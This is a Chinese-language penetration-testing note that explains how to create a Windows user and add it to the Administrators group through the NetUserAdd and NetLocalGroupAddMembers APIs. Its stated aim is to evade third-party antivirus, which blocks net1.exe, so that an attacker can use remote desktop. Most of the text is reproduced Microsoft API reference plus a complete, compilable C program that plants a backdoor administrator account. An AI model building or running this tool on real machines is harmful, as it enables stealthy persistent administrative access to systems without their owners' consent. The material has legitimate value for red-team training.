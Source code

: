 # 通过API添加Windows用户

## 简介

在渗透测试过程中，如果需要白利用远程桌面等服务，往往我们还需要一个知道密码的windows账户，而这个账户通常直接由net1.exe直接添加\(当然也可以直接pass the hash登录rdp，略略略\)，而调用这个可执行文件往往会被第三方杀软直接拦截（略略略，defender是微软自己的，不拦合法功能），这样我们就需要想另外的办法添加用户。

## 分析过程

1. 查文档&google\(狗头\)

![](../.gitbook/assets/image%20%28138%29.png)

1. 调用NetUserAdd添加本地用户
2. 调用NetLocalGroupAddMembers将用户添加到组

## 代码

微软文档解释了这个如何通过这个函数来添加操作系统账户，第一个参数servername指定了需要添加用户的主机名，传入NULL则为本地添加，第二个参数决定了第三个参数传入的结构体，通过这个函数我们可以在windows操作系统上添加账户。

```text
NET_API_STATUS NET_API_FUNCTION NetUserAdd(
  LPCWSTR servername,
  DWORD   level,
  LPBYTE  buf,
  LPDWORD parm_err
);
```

<table>
  <thead>
    <tr>
      <th style="text-align:left">Value</th>
      <th style="text-align:left">Meaning</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left"><b>1</b>
      </td>
      <td style="text-align:left">
        <p>Specifies information about the user account. The buf parameter points
          to a <a href="https://docs.microsoft.com/en-us/windows/desktop/api/lmaccess/ns-lmaccess-user_info_1">USER_INFO_1</a> structure.</p>
        <p>When you specify this level, the call initializes certain attributes to
          their default values. For more information, see the following Remarks section.</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left"><b>2</b>
      </td>
      <td style="text-align:left">Specifies level one information and additional attributes about the user
        account. The buf parameter points to a <a href="https://docs.microsoft.com/en-us/windows/desktop/api/lmaccess/ns-lmaccess-user_info_2">USER_INFO_2</a> structure.</td>
    </tr>
    <tr>
      <td style="text-align:left"><b>3</b>
      </td>
      <td style="text-align:left">Specifies level two information and additional attributes about the user
        account. This level is valid only on servers. The buf parameter points
        to a <a href="https://docs.microsoft.com/en-us/windows/desktop/api/lmaccess/ns-lmaccess-user_info_3">USER_INFO_3</a> structure.
        Note that it is recommended that you use <a href="https://docs.microsoft.com/en-us/windows/desktop/api/lmaccess/ns-lmaccess-user_info_4">USER_INFO_4</a> instead.</td>
    </tr>
    <tr>
      <td style="text-align:left"><b>4</b>
      </td>
      <td style="text-align:left">
        <p>Specifies level two information and additional attributes about the user
          account. This level is valid only on servers. The buf parameter points
          to a <a href="https://docs.microsoft.com/en-us/windows/desktop/api/lmaccess/ns-lmaccess-user_info_4">USER_INFO_4</a> structure.</p>
        <p><b>Windows 2000:  </b>This level is not supported.</p>
      </td>
    </tr>
  </tbody>
</table>

同理将该账户加入administrators组也是使用类似的函数，这里就不贴参数了。

```text
NET_API_STATUS NET_API_FUNCTION NetLocalGroupAddMembers(
  LPCWSTR servername,
  LPCWSTR groupname,
  DWORD   level,
  LPBYTE  buf,
  DWORD   totalentries
);
```

### 完整代码

```text
#ifndef UNICODE
#define UNICODE
#endif
#pragma comment(lib, "netapi32.lib")

#include <stdio.h>
#include <windows.h> 
#include <lm.h>

int wmain(int argc, wchar_t* argv[])
{
    USER_INFO_1 ui;
    DWORD dwLevel = 1;
    DWORD dwError = 0;
    NET_API_STATUS nStatus;

    if (argc != 3)
    {
        
        fwprintf(stderr, L"Usage:./this.exe <username> <password>\n", argv[0]);
        exit(1);
    }

    ui.usri1_name = argv[1];
    ui.usri1_password = argv[2];
    ui.usri1_priv = USER_PRIV_USER;
    ui.usri1_home_dir = NULL;
    ui.usri1_comment = NULL;
    ui.usri1_flags = UF_SCRIPT;
    ui.usri1_script_path = NULL;

    nStatus = NetUserAdd(NULL,
        dwLevel,
        (LPBYTE)&ui,
        &dwError);

    if (nStatus == NERR_Success)
        fwprintf(stderr, L"User %s has been successfully added\n",argv[1]);

    else
        fprintf(stderr, "A system error has occurred: %d\n", nStatus);

    LOCALGROUP_MEMBERS_INFO_3 account;
    account.lgrmi3_domainandname = argv[1];

    NET_API_STATUS Status = NetLocalGroupAddMembers(NULL, L"Administrators", 3, (LPBYTE)&account, 1);

    if (Status == NERR_Success || Status == ERROR_MEMBER_IN_ALIAS){
        printf("Administrators added Successfully!");
    }
    else {
        printf("Administrators added Failed!");
    }
    return 0;
}
```

## LINKS

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/lmaccess/nf-lmaccess-netlocalgroupaddmembers" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/lmaccess/nf-lmaccess-netuseradd" %}



